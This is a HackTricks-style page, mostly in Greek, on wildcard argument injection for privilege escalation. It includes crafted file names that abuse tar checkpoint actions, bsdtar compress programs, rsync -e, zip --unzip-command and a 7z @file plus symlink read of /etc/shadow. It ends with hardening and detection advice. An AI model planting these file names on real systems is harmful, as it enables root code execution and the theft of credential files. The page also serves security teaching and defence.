 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> Wildcard (aka *glob*) **εισαγωγή επιχειρημάτων** συμβαίνει όταν ένα προνομιακό σενάριο εκτελεί ένα Unix δυαδικό όπως `tar`, `chown`, `rsync`, `zip`, `7z`, … με ένα μη παραquoted wildcard όπως `*`.
> Δεδομένου ότι το shell επεκτείνει το wildcard **πριν** εκτελέσει το δυαδικό, ένας επιτιθέμενος που μπορεί να δημιουργήσει αρχεία στον τρέχοντα κατάλογο μπορεί να κατασκευάσει ονόματα αρχείων που αρχίζουν με `-` ώστε να ερμηνεύονται ως **επιλογές αντί για δεδομένα**, αποτελεσματικά λαθραία σημαίες ή ακόμα και εντολές.
> Αυτή η σελίδα συγκεντρώνει τις πιο χρήσιμες πρωτογενείς μεθόδους, πρόσφατες έρευνες και σύγχρονες ανιχνεύσεις για το 2023-2025.

## chown / chmod

Μπορείτε να **αντιγράψετε τον ιδιοκτήτη/ομάδα ή τα δικαιώματα ενός αυθαίρετου αρχείου** εκμεταλλευόμενοι τη σημαία `--reference`:
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
Όταν ο root εκτελεί αργότερα κάτι όπως:
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` έχει εισαχθεί, προκαλώντας *όλα* τα αντίστοιχα αρχεία να κληρονομήσουν την ιδιοκτησία/δικαιώματα του `/root/secret``file`.

*PoC & εργαλείο*: [`wildpwn`](https://github.com/localh0t/wildpwn) (συνδυασμένη επίθεση).
Δείτε επίσης το κλασικό έγγραφο της DefenseCode για λεπτομέρειες.

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

Εκτελέστε αυθαίρετες εντολές εκμεταλλευόμενοι τη δυνατότητα **checkpoint**:
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
Μόλις ο root εκτελέσει π.χ. `tar -czf /root/backup.tgz *`, το `shell.sh` εκτελείται ως root.

### bsdtar / macOS 14+

Ο προεπιλεγμένος `tar` σε πρόσφατο macOS (βασισμένος σε `libarchive`) *δεν* υλοποιεί το `--checkpoint`, αλλά μπορείτε να επιτύχετε εκτέλεση κώδικα με την επιλογή **--use-compress-program** που σας επιτρέπει να καθορίσετε έναν εξωτερικό συμπιεστή.
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
Όταν ένα προνομιακό σενάριο εκτελεί `tar -cf backup.tar *`, θα ξεκινήσει το `/bin/sh`.

---

## rsync

`rsync` σας επιτρέπει να παρακάμψετε το απομακρυσμένο κέλυφος ή ακόμη και το απομακρυσμένο δυαδικό μέσω σημαιών γραμμής εντολών που ξεκινούν με `-e` ή `--rsync-path`:
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
Αν ο root αργότερα αρχειοθετήσει τον κατάλογο με `rsync -az * backup:/srv/`, η εισαγόμενη σημαία δημιουργεί το shell σας στην απομακρυσμένη πλευρά.

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` mode).

---

## 7-Zip / 7z / 7za

Ακόμα και όταν το προνομιακό σενάριο *αμυντικά* προσθέτει το wildcard με `--` (για να σταματήσει την ανάλυση επιλογών), η μορφή 7-Zip υποστηρίζει **αρχεία λίστας αρχείων** προσθέτοντας το όνομα αρχείου με `@`. Συνδυάζοντας αυτό με ένα symlink σας επιτρέπει να *εξάγετε αυθαίρετα αρχεία*:
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
Αν ο root εκτελέσει κάτι όπως:
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip θα προσπαθήσει να διαβάσει `root.txt` (→ `/etc/shadow`) ως λίστα αρχείων και θα αποτύχει, **εκτυπώνοντας το περιεχόμενο στο stderr**.

---

## zip

`zip` υποστηρίζει τη σημαία `--unzip-command` που μεταφέρεται *κατά λέξη* στη γραμμή εντολών του συστήματος όταν θα δοκιμαστεί το αρχείο:
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
Inject the flag via a crafted filename and wait for the privileged backup script to call `zip -T` (test archive) on the resulting file.

---

## Additional binaries vulnerable to wildcard injection (2023-2025 quick list)

The following commands have been abused in modern CTFs and real environments.  The payload is always created as a *filename* inside a writable directory that will later be processed with a wildcard:

| Binary | Flag to abuse | Effect |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → arbitrary `@file` | Διαβάστε το περιεχόμενο του αρχείου |
| `flock` | `-c <cmd>` | Εκτέλεση εντολής |
| `git`   | `-c core.sshCommand=<cmd>` | Εκτέλεση εντολής μέσω git over SSH |
| `scp`   | `-S <cmd>` | Δημιουργία αυθαίρετου προγράμματος αντί για ssh |

These primitives are less common than the *tar/rsync/zip* classics but worth checking when hunting.

---

## Detection & Hardening

1. **Disable shell globbing** in critical scripts: `set -f` (`set -o noglob`) prevents wildcard expansion.
2. **Quote or escape** arguments: `tar -czf "$dst" -- *` is *not* safe — prefer `find . -type f -print0 | xargs -0 tar -czf "$dst"`.
3. **Explicit paths**: Use `/var/www/html/*.log` instead of `*` so attackers cannot create sibling files that start with `-`.
4. **Least privilege**: Run backup/maintenance jobs as an unprivileged service account instead of root whenever possible.
5. **Monitoring**: Elastic’s pre-built rule *Potential Shell via Wildcard Injection* looks for `tar --checkpoint=*`, `rsync -e*`, or `zip --unzip-command` immediately followed by a shell child process. The EQL query can be adapted for other EDRs.

---

## References

* Elastic Security – Potential Shell via Wildcard Injection Detected rule (last updated 2025)
* Rutger Flohil – “macOS — Tar wildcard injection” (Dec 18 2024)

{{#include ../../banners/hacktricks-training.md}}

